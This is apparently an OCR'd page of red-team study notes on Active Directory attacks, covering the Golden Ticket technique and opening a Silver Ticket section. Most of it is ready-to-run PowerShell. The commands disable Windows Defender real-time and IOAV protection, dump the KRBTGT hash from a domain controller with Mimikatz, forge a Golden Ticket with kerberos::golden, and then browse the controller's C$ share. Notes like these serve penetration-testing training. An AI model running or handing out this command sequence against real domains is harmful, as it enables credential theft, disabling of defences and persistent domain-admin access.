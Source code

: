 + Requires DA privs which can be done by used over-pass-the-hash to start a PowerShell session as domain admin.
+ Enter a PSSession to the domain controller and dump the hashes.

```powershell
# Enter session
powershell -ep bypass
$sess = New-PSSession -ComputerName <computer-name>
Enter-PSSession $sess

# Bypass Protections
[star-dc]:PS> Set-MpPreference -DisableRealtimemonitoring $true 
[star-dc]:PS> Set-MpPreference -DisableIOAVProtection $true

# exit PSRemote session
exit

# Get the KRBTGT hash
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession $sess
[star-dc]:PS> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
[star-dc]:PS> Invoke-Mimikatz
```

+ Now on any machine even if it is not part of the domain but can reach DC over network, we can use the information from the krbtgt hash to create a Golden Ticket.

```powershell
#Note the admin SID
. .\PowerView.ps1
Get-DomainSID -Administrator

#Load the krbtgt hash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain-name-here /sid:admin-sid-here /krbtgt:krbtg-hash-here id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
 
+ Now we can explore the DC file system and execute WMI commands

```powershell
ls \\star-dc\C$\
gwmi -Class win32_computersystem -ComputerName star-dc
```

# <span style="color:lightblue">Silver Ticket</span>

* We will be abusing the 5th step in the Kerberos system with the help of a silver ticket.
* A valid TGS (Golden ticket is TGT).
* Encrypted and Signed by the NTLM hash of the service account (Golden ticket is signed by hash of krbtgt) of the service running with that account.
* Services rarely check PAC (Privileged Attribute Certificate).
* Services will allow access only to the services themselves.
* Reasonable persistence period (default 30 days for computer accounts).
